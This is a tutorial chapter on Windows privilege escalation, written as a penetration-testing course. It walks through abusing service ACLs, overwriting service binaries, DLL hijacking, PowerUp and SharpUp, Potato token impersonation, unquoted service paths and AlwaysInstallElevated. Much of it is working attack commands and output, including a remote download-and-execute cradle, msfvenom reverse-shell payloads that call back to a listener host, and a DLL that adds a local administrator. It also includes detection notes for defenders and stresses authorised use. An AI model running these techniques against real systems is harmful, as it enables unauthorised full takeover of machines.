







**Level:** Expert · **Track:** Penetration Testing · **Read time:** 110 min

This is Chapter 5 of the Privilege Escalation notebook. Chapter 4 was the *enumeration* half of Windows privilege escalation — how to land on a low-privilege Windows host and produce a ranked, evidence-backed list of local-root leads without firing a single exploit. This chapter is the *weaponisation* half: it takes each of those lead categories and shows exactly how to turn it into a SYSTEM shell, with the real commands, the exact flags, the payloads, and the output you would actually see on the wire.

The Windows escalation surface splits cleanly into two families, and this chapter is organised around them. The first is **service and file misconfiguration**: a service whose binary you can overwrite, whose configuration you can rewrite, whose path is unquoted, or whose search order lets you plant a DLL. The second is **privilege and token abuse**: a service account that holds `SeImpersonate` or `SeAssignPrimaryToken` and can therefore be walked straight to SYSTEM through the Potato family, or one of the other dangerous privileges (`SeBackup`, `SeRestore`, `SeDebug`, `SeTakeOwnership`) that each have a distinct, reliable exploitation path. Layered on top is **UAC** — the boundary that separates a member of the local Administrators group from an actually-elevated token — and the theft-and-impersonation techniques that move you laterally between existing tokens on a box.

Everything here assumes an explicit, written, scoped engagement, or lab hardware you own. Holding a shell as `iis apppool\defaultapppool`, `nt service\mssqlserver`, or a captured local admin does **not** make SYSTEM lawful game unless your rules of engagement say so. Run every command and tool in this chapter against your own VMs, HackTheBox / TryHackMe / Proving-Grounds targets, or systems named in a signed authorisation — nowhere else. Several of the tools here (JuicyPotato, GodPotato, PrintSpoofer, meterpreter's `getsystem`) are loudly flagged by modern EDR; the woven-in defensive notes and the dedicated Detection & Defense section near the end explain exactly what each one leaves behind so you understand both sides.

---

## Part 1: The Model You Are Attacking — Why Windows Escalation Works

Before touching a single exploit you need the mental model, because every technique in this chapter is a consequence of two design decisions Microsoft made decades ago: **services run as powerful accounts**, and **privilege is carried on tokens, not on processes**. Chapter 4 taught you to *see* these; here we exploit them, so a tight recap of the mechanics is the foundation.

### Integrity levels and the SYSTEM goal

Every Windows process runs at an **integrity level** (IL): Low, Medium, High, or System. A standard user's processes run at Medium. An elevated administrator's processes run at High. Core OS services run as `NT AUTHORITY\SYSTEM` at System integrity — the highest, with unrestricted access to the machine. **Local privilege escalation on Windows almost always means moving from a Medium-integrity user context (or a service account) to a High-integrity administrator or, better, to SYSTEM.**

SYSTEM is the real prize over "an admin token" for three reasons: it survives UAC entirely (there is no consent prompt above it), it can read every user's secrets including the SAM and LSA, and from SYSTEM you can trivially impersonate or create tokens for any user, which is your springboard into the domain (Chapter 6 onward).



The dotted arrows are the whole chapter: a **service misconfiguration** or a **token privilege** can jump you straight from Medium to SYSTEM without ever touching an admin account, while a **UAC bypass** promotes an admin-group member from Medium to High.

### Access tokens: the object that actually carries privilege

When you authenticate, the LSASS process builds an **access token** and attaches it to your processes. That token is the *only* thing Windows consults for authorisation decisions. It contains:

- The user **SID** and the SIDs of every group you belong to.
- A list of **privileges** (`SeImpersonatePrivilege`, `SeDebugPrivilege`, etc.), each independently enabled or disabled.
- An **integrity level**.

Two facts make the token model exploitable. First, **privileges are per-token, and service accounts are handed dangerous ones by default** — a web app pool holds `SeImpersonatePrivilege` because IIS legitimately needs to impersonate authenticated clients. Second, **tokens are shareable objects**: if you can get SYSTEM to hand you a token — even briefly, even a network-logon token — and you hold the right privilege, you can impersonate it into a full SYSTEM process. That single idea is the entire Potato family.

**Pentester framing:** the two questions that decide your entire Windows escalation are answered by `whoami /priv` and `whoami /groups`. Everything below is "given what those two commands returned, here is your path." If you skipped Chapter 4, run them now.

```
C:\> whoami /priv

PRIVILEGES INFORMATION
----------------------
Privilege Name                Description                          State
============================= ==================================== ========
SeImpersonatePrivilege        Impersonate a client after auth      Enabled
SeAssignPrimaryTokenPrivilege Replace a process level token        Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
```

That single `SeImpersonatePrivilege: Enabled` line is, on a huge fraction of real Windows boxes, a direct ticket to SYSTEM. Hold that thought — Part 8 cashes it in.

---

## Part 2: Teaching accesschk and sc From Scratch

Two tools appear in almost every service-based escalation, so we teach them properly before using them, per the tool-from-scratch rule.

### sc.exe — the service control manager CLI

`sc.exe` is a built-in Windows binary (present on every install, no upload needed) that talks to the **Service Control Manager (SCM)**. A Windows *service* is a background program the SCM starts, defined by a registry key under `HKLM\SYSTEM\CurrentControlSet\Services\<name>` that records its executable path (`ImagePath`), the account it runs as (`ObjectName`, e.g. `LocalSystem`), and its start type.

Core `sc` verbs you will use constantly:

| Command | What it does | Why it matters for escalation |
|---|---|---|
| `sc query <name>` | Show current state (running/stopped) | Confirm you can restart it to trigger your payload |
| `sc qc <name>` | Query config: BINARY_PATH_NAME, START_TYPE, SERVICE_START_NAME | Reveals unquoted paths and the run-as account |
| `sc config <name> binPath= "C:\x.exe"` | **Rewrite the service binary path** | The core weak-ACL exploit primitive |
| `sc stop <name>` / `sc start <name>` | Stop / start the service | Triggers execution of the (new) binary as the service account |
| `sc qprivs <name>` | Show privileges assigned to the service | Spot SeImpersonate-holding services |

The single most important syntax gotcha, which trips up every beginner: **`sc config` requires a space after the `=` and none before it.** `binPath=` is correct; `binPath =` fails silently or misparses. This is a legacy of `sc`'s argument parser and it is not optional.

### accesschk — the ACL auditor

`accesschk.exe` is a **Sysinternals** tool (by Mark Russinovich, downloaded from Microsoft's live.sysinternals.com; not built in, so you upload it). It reports the **effective permissions** a given user or group has on securable objects: files, directories, registry keys, and — crucially — **services**. Where `sc qc` shows you what a service *is*, `accesschk` shows you what you are *allowed to do to it*.

Because it is a Microsoft-signed binary, older versions ship an EULA prompt; always pass `/accepteula` (or `-accepteula`) to suppress it in a non-interactive shell, otherwise it hangs waiting for a keypress.

The flags that matter:

| Flag | Meaning |
|---|---|
| `-u` | Suppress errors (quieter output) |
| `-w` | Show only objects with **write** access |
| `-c` | Target is a **Windows service** (name), `*` = all services |
| `-d` | Target is a **directory** (don't recurse into files) |
| `-k` | Target is a **registry key** |
| `-s` | Recurse subdirectories/subkeys |
| `-v` | Verbose — show the specific granted rights |
| `-q` | Omit the banner |
| `/accepteula` | Accept EULA non-interactively |

The canonical service-hunting incantation, which you will run on every box:

```cmd
accesschk.exe /accepteula -uwcqv "Everyone" *
accesschk.exe /accepteula -uwcqv "Authenticated Users" *
accesschk.exe /accepteula -uwcqv "%USERNAME%" *
```

`-uwcqv "<principal>" *` reads as: *quietly, show me every service (`c` + `*`) on which `<principal>` has write-level access (`w`), verbosely listing the exact rights (`v`).* The rights you are hunting for are `SERVICE_ALL_ACCESS` (game over) or `SERVICE_CHANGE_CONFIG` (you can rewrite `binPath`).

**Blue team usage:** the same command is a defender's audit — run `accesschk -uwcqv "Users" *` on a gold image and any service that comes back is a build defect to fix before shipping.

---

## Part 3: Weak Service Permissions (SERVICE_CHANGE_CONFIG)

This is the cleanest Windows escalation there is, and it is astonishingly common on real estates because admins grant `Authenticated Users` or a specific low-priv group control over a service so a helpdesk can restart it — not realising `SERVICE_CHANGE_CONFIG` also lets that group **rewrite what binary the service runs and which account runs it.**

### The mechanic

A service defined to run as `LocalSystem` executes `ImagePath` *as SYSTEM* every time it starts. If your token can call `ChangeServiceConfig` on it, you rewrite `ImagePath` to your payload, restart the service, and the SCM runs your code as SYSTEM. That is the entire attack.



### Worked exploitation

Enumeration (Part 2 command) returned:

```
C:\> accesschk.exe /accepteula -uwcqv "Authenticated Users" *
RW daclsvc
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_CHANGE_CONFIG
        SERVICE_START
        SERVICE_STOP
        READ_CONTROL
```

`SERVICE_CHANGE_CONFIG` + `SERVICE_START` + `SERVICE_STOP` on `daclsvc` (a real service from TryHackMe's *Windows PrivEsc* room) is a full chain. Confirm the run-as account:

```
C:\> sc qc daclsvc
[SC] QueryServiceConfig SUCCESS
SERVICE_NAME: daclsvc
        BINARY_PATH_NAME   : "C:\Program Files\DACL Service\daclservice.exe"
        SERVICE_START_NAME : LocalSystem
```

`SERVICE_START_NAME : LocalSystem` confirms the payload will run as SYSTEM. Build a payload — the simplest reliable one just adds you to local admins (no callback, survives losing your shell):

```cmd
sc config daclsvc binPath= "cmd /c net localgroup administrators pwn /add"
sc stop daclsvc
sc start daclsvc
```

The `sc start` will report `FAILED 1053` ("did not respond in a timely fashion") — **that is expected and harmless**: `net.exe` is not a real service, so the SCM's start times out *after your command has already run*. Verify:

```
C:\> net localgroup administrators
Members
-------------------------------------------------------------------------------
Administrator
pwn
```

For an interactive SYSTEM shell instead, point `binPath` at an msfvenom service EXE (Part 6 teaches msfvenom in full) or a nc callback. **Always restore the original `binPath` afterwards** so the legitimate service still works and you leave a cleaner box:

```cmd
sc config daclsvc binPath= "C:\Program Files\DACL Service\daclservice.exe"
```

**Red team note:** rewriting `binPath` to a one-shot `net localgroup add` is far quieter than a reverse shell — no network callback, no new listening process, and the "service" exits instantly. **Blue team note:** every `sc config` writes to the service registry key and emits **Event ID 7040** (service start type changed) / **4657** (registry value modified) if auditing is on; a SYSTEM-integrity `net.exe` child of `services.exe` is a screaming EDR signal.

---

## Part 4: Insecure Service Binary Permissions

A variant that needs *no* config-change right at all. Here the service configuration is locked down, but the **executable file on disk** that the service runs is writable by you. You do not touch the SCM's config — you simply **overwrite the binary itself**, then restart the service (or wait for a reboot) and the SCM runs your replaced file as SYSTEM.

### Finding it

`accesschk` against the binary's directory or the file directly:

```
C:\> accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"
RW Everyone
        FILE_ALL_ACCESS
```

`FILE_ALL_ACCESS` for `Everyone` on the service EXE means you can replace it. PowerUp (Part 5) categorises this as `ModifiableServiceFile`.

### Exploitation

```cmd
:: back up the original so the box still works afterwards
copy "C:\Program Files\File Permissions Service\filepermservice.exe" C:\Temp\filepermservice.bak

:: drop your payload over it (msfvenom service exe, or a simple wrapper)
copy /Y C:\Temp\pwn.exe "C:\Program Files\File Permissions Service\filepermservice.exe"

:: trigger — restart the service if you can, else it fires on next reboot
sc stop filepermsvc & sc start filepermsvc
```

If you lack stop/start rights, `net stop`/`net start` may still be allowed via a different ACL, or you wait for a scheduled reboot. **This is why enumeration ranked these leads** — a writable binary you cannot restart is a lower-priority lead than one you can.

**Common pitfall:** writable *directory* vs writable *file* are different. If the file itself is locked but its **parent directory** is writable, you cannot overwrite the EXE while the service holds a handle — but you may be able to rename it and drop a replacement, or this becomes a **DLL-hijack** surface instead (Part 7). Always check both with `accesschk -dqv "<dir>"` and `accesschk -qv "<file>"`.

---

## Part 5: PowerUp and SharpUp — Automating Service Escalation

Doing all of Parts 3–4 by hand is precise but slow. **PowerUp** (PowerShell) and **SharpUp** (C#/.NET, from the same GhostPack authors) automate the discovery *and* the exploitation. Taught from scratch here.

### PowerUp

PowerUp is a single PowerShell script (`PowerUp.ps1`, part of the PowerSploit toolkit) that enumerates every common Windows-service and registry escalation vector and, for many, ships a matching `Abuse-*` function that exploits it for you. It runs in memory — you can `IEX` it straight from a download cradle without touching disk, which matters for EDR evasion.

Load it and run the master check:

```powershell
# in-memory load (no file on disk)
IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.5/PowerUp.ps1')

# run everything
Invoke-AllChecks
```

Key functions and what each finds:

| Function | Finds | Matching abuse |
|---|---|---|
| `Get-ModifiableService` | Services whose **config** you can change | `Invoke-ServiceAbuse` |
| `Get-ModifiableServiceFile` | Services whose **binary/args** you can write | `Install-ServiceBinary` |
| `Get-UnquotedService` | Unquoted `ImagePath` with a writable dir | drop EXE at the space |
| `Get-RegistryAlwaysInstallElevated` | AlwaysInstallElevated policy set | `Write-UserAddMSI` |
| `Get-ModifiableRegistryAutoRun` | Writable autorun program | replace it |

One-shot abuse of a modifiable service, adding a user:

```powershell
Invoke-ServiceAbuse -Name 'daclsvc' -UserName 'pwn' -Password 'P@ssw0rd!'
# [*] Service 'daclsvc' set to abuse; running... user added to Administrators
```

`Invoke-ServiceAbuse` does everything Part 3 did by hand — stop, `ChangeServiceConfig` to a `net user` command, start, restore — in one call.

### SharpUp

When PowerShell is locked down (Constrained Language Mode, AMSI, script-block logging), **SharpUp** is the compiled equivalent — a single `.exe` you run:

```
C:\> SharpUp.exe audit

=== SharpUp: Running Privilege Escalation Checks ===

=== Modifiable Services ===
  Name             : daclsvc
  DisplayName      : DACL Service
  StartName        : LocalSystem
  AbuseFunction    : Invoke-ServiceAbuse -Name 'daclsvc'

=== Unquoted Service Paths ===
  Name             : unquotedsvc
  Path             : C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe
```

**Blue team / detection note:** both tools are heavily signatured. PowerUp's function names (`Invoke-AllChecks`, `Get-ModifiableService`) are classic script-block-logging (Event ID 4104) IOCs; SharpUp.exe trips Defender by hash and by its embedded strings. On a mature EDR estate expect the compiled version to be quarantined on write — obfuscation/recompilation is often needed, which is exactly why understanding the manual method (Parts 3–4) still matters.

---

## Part 6: Teaching msfvenom — Building the Payloads You Just Pointed At

Parts 3–7 all end with "point the service at *your payload*." Here is how you build one, taught from zero, because a payload that crashes the moment the SCM launches it wastes the whole chain.

`msfvenom` is the standalone payload generator bundled with the Metasploit Framework on Kali. It combines a **payload** (what runs — a reverse shell, a command) with an **encoder** and an **output format** (exe, dll, msi, raw shellcode). The flags:

| Flag | Meaning | Example |
|---|---|---|
| `-p` | Payload to use | `windows/x64/shell_reverse_tcp` |
| `LHOST=` / `LPORT=` | Callback address/port | `LHOST=10.10.14.5 LPORT=443` |
| `-f` | Output format | `-f exe`, `-f dll`, `-f msi` |
| `-a` | Architecture | `-a x64` |
| `-o` | Output file | `-o pwn.exe` |
| `-e` | Encoder | `-e x86/shikata_ga_nai` |

The critical subtlety for **service** payloads: a normal reverse-shell EXE, when launched by the SCM, does not answer the service-control protocol, so the SCM kills it after ~30 seconds. For anything that must *survive* as a service, use the **`exe-service`** format, which wraps your payload in a proper service stub:

```bash
# service-safe payload (survives SCM launch)
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.5 LPORT=443 \
         -f exe-service -o pwn.exe

# simple command payload (one-shot, e.g. behind sc config binPath)
msfvenom -p windows/x64/exec CMD='net localgroup administrators pwn /add' \
         -f exe -o add.exe

# DLL for hijacking (Part 7)
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.5 LPORT=443 \
         -f dll -o hijack.dll

# MSI for AlwaysInstallElevated (Part 9)
msfvenom -p windows/x64/exec CMD='net localgroup administrators pwn /add' \
         -f msi -o evil.msi
```

Catch the reverse shell with a listener before triggering:

```bash
# plain nc for shell_reverse_tcp
nc -lvnp 443
# or rlwrap nc -lvnp 443   (arrow-key history in the caught shell)
```

**Detection note:** default msfvenom output is one of the most-signatured artifacts in existence — every AV catches stock `shikata_ga_nai`-encoded meterpreter on write. In labs it's fine; against EDR you need custom shellcode loaders, which is a topic of its own. For escalation, prefer the **`windows/x64/exec` `net localgroup` one-shot** where possible: it's a tiny, less-signatured binary and it needs no listener.

---

## Part 7: DLL Hijacking

When you cannot touch a service's config *or* its EXE, you attack its **dependencies**. A program that calls `LoadLibrary("foo.dll")` without an absolute path triggers the Windows **DLL search order**. If any directory searched *before* the real DLL's location is writable by you, you plant a malicious `foo.dll` there and the service loads *your* code into its SYSTEM process on next start.

### The search order (why it's exploitable)

With safe-DLL-search enabled (default), the order is roughly:



Two realistic hijack conditions: (1) a **writable directory in the system `%PATH%`** that precedes where a service's genuinely-missing DLL would resolve, or (2) the service's **own application directory is writable** and it loads a non-KnownDLL by name.

### Finding a missing DLL

Run **Process Monitor** (Procmon, Sysinternals) with a filter on `Result is NAME NOT FOUND` and `Path ends with .dll` while restarting the target service. Any `CreateFile ... NAME NOT FOUND` on a DLL in a writable search directory is a live hijack:

```
Time   Process        Operation  Path                                   Result
10:31  dllsvc.exe     CreateFile C:\Temp\hijackme.dll                   NAME NOT FOUND
10:31  dllsvc.exe     CreateFile C:\Windows\System32\hijackme.dll       NAME NOT FOUND
```

`C:\Temp` is world-writable and searched first → drop your DLL there.

### Building and dropping the DLL

Your DLL just needs to do its work in `DllMain` on `DLL_PROCESS_ATTACH`. msfvenom's `-f dll` (Part 6) produces a valid one, or compile a minimal one:

```c
// hijack.c  ->  x86_64-w64-mingw32-gcc hijack.c -shared -o hijackme.dll
#include <windows.h>
BOOL WINAPI DllMain(HINSTANCE h, DWORD reason, LPVOID r) {
    if (reason == DLL_PROCESS_ATTACH)
        system("cmd.exe /c net localgroup administrators pwn /add");
    return TRUE;
}
```

```cmd
copy hijackme.dll C:\Temp\hijackme.dll
sc stop dllsvc & sc start dllsvc
```

**PowerUp** automates discovery via `Find-ProcessDLLHijack` and `Find-PathDLLHijack`. **Blue team note:** DLL hijacks are hunted by watching for DLLs loaded from non-standard, user-writable paths (Sysmon **Event ID 7 – Image Loaded**, filtered on unsigned modules loaded by signed service binaries).

---

## Part 8: SeImpersonate / SeAssignPrimaryToken — The Potato Family

This is the most valuable single technique on modern Windows, because service accounts hold `SeImpersonatePrivilege` **by default**. If your `whoami /priv` (Part 1) showed `SeImpersonatePrivilege` or `SeAssignPrimaryTokenPrivilege` enabled — which it will for `iis apppool\*`, `nt service\mssqlserver`, and most web/db service contexts — you have a near-guaranteed path to SYSTEM regardless of patch level.

### Why it works

`SeImpersonatePrivilege` lets a process **impersonate any token it can get a handle to**. The Potato technique tricks a SYSTEM-level service into authenticating to a listener the attacker controls; the attacker captures the SYSTEM token from that authentication and, holding SeImpersonate, impersonates it into a new SYSTEM process. Different "Potatoes" differ only in *how* they coerce a SYSTEM authentication.



### Choosing the right Potato

| Tool | Coercion vector | Works on | Notes |
|---|---|---|---|
| **JuicyPotato** | DCOM/BITS + local NTLM reflection | Win7–Win10 1809, Server ≤2016 | Needs a working CLSID; dead on 1809+ |
| **RoguePotato** | DCOM via OXID resolver on 135 | Win10 1809+, Server 2019 | Needs `-r` redirector; revived JuicyPotato |
| **PrintSpoofer** | MS-RPRN / Print Spooler named pipe | Win10 / Server 2016–2019 | Cleanest; no external redirector |
| **GodPotato** | DCOM/RPC, universal | Win8–Win11, Server 2012–2022 | Modern default; .NET-version specific build |

**Practical rule:** on a current box, **try PrintSpoofer first, then GodPotato.** JuicyPotato is a legacy fallback for old targets.

### Worked exploitation — PrintSpoofer

PrintSpoofer abuses the Print Spooler's named pipe to get SYSTEM to connect back to a pipe the attacker owns, then impersonates the resulting SYSTEM token — no external redirector, single binary.

```
C:\> whoami
iis apppool\defaultapppool

C:\> whoami /priv | findstr Impersonate
SeImpersonatePrivilege        Impersonate a client after authentication  Enabled

:: pop an interactive SYSTEM shell in the current console
C:\> PrintSpoofer64.exe -i -c cmd.exe
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK

C:\Windows\system32> whoami
nt authority\system
```

Flags: `-i` interactive (spawn in the current console), `-c <cmd>` the command to run as SYSTEM. For a remote shell instead of interactive:

```cmd
PrintSpoofer64.exe -c "C:\Temp\pwn.exe"   :: pwn.exe = msfvenom reverse shell
```

### Worked exploitation — GodPotato (modern default)

GodPotato works from Windows 8 through Windows 11 / Server 2022, well after PrintSpoofer's spooler vector is patched or disabled. Pick the build matching the target's .NET (`GodPotato-NET4.exe` for .NET 4.x):

```
C:\> GodPotato-NET4.exe -cmd "cmd /c whoami"
[*] CombaseModule: 0x7ff...
[*] DispatchTable: 0x7ff...
[*] Trigger RPC -> SYSTEM token captured
nt authority\system

:: full reverse shell as SYSTEM
C:\> GodPotato-NET4.exe -cmd "C:\Temp\pwn.exe"
```

### Legacy — JuicyPotato

For pre-1809 targets, JuicyPotato needs a CLSID that maps to a SYSTEM-running DCOM object (look one up per-OS from the ohpe/juicy-potato CLSID lists):

```cmd
JuicyPotato.exe -l 1337 -p C:\Temp\pwn.exe -t * -c {CLSID-for-target-OS}
```

`-l` local COM port, `-p` program to launch, `-t *` try both `CreateProcessWithToken` (needs SeImpersonate) and `CreateProcessAsUser` (needs SeAssignPrimaryToken), `-c` the CLSID.

**Bug bounty / CTF note:** the Potato chain is the canonical final step on HackTheBox/TryHackMe Windows boxes where you land as a web or MSSQL service account — `xp_cmdshell` on an MSSQL box hands you `nt service\mssqlserver` *with SeImpersonate*, and PrintSpoofer/GodPotato finishes it. **Detection note:** all Potatoes leave a distinctive named-pipe + token-manipulation trace; Defender flags PrintSpoofer/GodPotato by hash, and `services.exe`/`spoolsv.exe` spawning `cmd.exe` at System integrity is a high-fidelity Sysmon EID 1 alert.

---

## Part 9: Unquoted Service Paths

A subtle, purely-configuration bug with no writable-file requirement at all — just a badly-quoted path and a writable directory somewhere along it.

### The mechanic

When a service's `ImagePath` contains spaces and is **not wrapped in quotes**, the SCM (via `CreateProcess`) does not know where the executable name ends. It tries each space-delimited prefix in turn, appending `.exe`:

For `ImagePath = C:\Program Files\Vuln Service\service.exe`, the SCM attempts, in order:

```
C:\Program.exe
C:\Program Files\Vuln.exe
C:\Program Files\Vuln Service\service.exe   <- the intended one
```

If you can write to `C:\` you plant `Program.exe`; if you can write to `C:\Program Files\` you plant `Vuln.exe` — and the SCM runs *your* binary as the service account before it ever reaches the real one. `C:\` is not writable by standard users, but nested paths under `C:\Program Files\SomeVendor\` frequently are, thanks to loose installer ACLs.



### Finding and exploiting

Built-in enumeration (no tools) — find services whose path has a space and no leading quote:

```cmd
wmic service get name,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """
```

Then confirm a writable directory along the path:

```
C:\> sc qc unquotedsvc
        BINARY_PATH_NAME : C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe
        SERVICE_START_NAME : LocalSystem

C:\> accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
RW BUILTIN\Users
```

`Users` has write on `...\Unquoted Path Service\` → the SCM will try `C:\Program Files\Unquoted Path Service\Common.exe` before the real binary. Plant it:

```cmd
copy C:\Temp\pwn.exe "C:\Program Files\Unquoted Path Service\Common.exe"
sc stop unquotedsvc & sc start unquotedsvc
```

The service starts, `Common.exe` runs as SYSTEM. **PowerUp**: `Get-UnquotedService` / `Write-ServiceBinary`. **Pitfall:** name the planted binary after the token *before* the first space in the remaining path — here `Common.exe`, not `Common Files.exe`. Get the segment wrong and nothing fires.

---

## Part 10: AlwaysInstallElevated

A policy misconfiguration that turns any `.msi` into a SYSTEM-execution primitive. When **both** of two registry values are set to `1`, Windows Installer runs *every* MSI package with SYSTEM privileges, even when launched by a standard user:

```
HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated = 1
HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated = 1
```

Both are required — HKLM alone or HKCU alone does nothing. Check:

```cmd
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

Both returning `0x1`? Build a malicious MSI (Part 6) and install it:

```bash
msfvenom -p windows/x64/exec CMD='net localgroup administrators pwn /add' -f msi -o evil.msi
```

```cmd
:: /quiet no UI, /qn no prompts, /i install
msiexec /quiet /qn /i C:\Temp\evil.msi
```

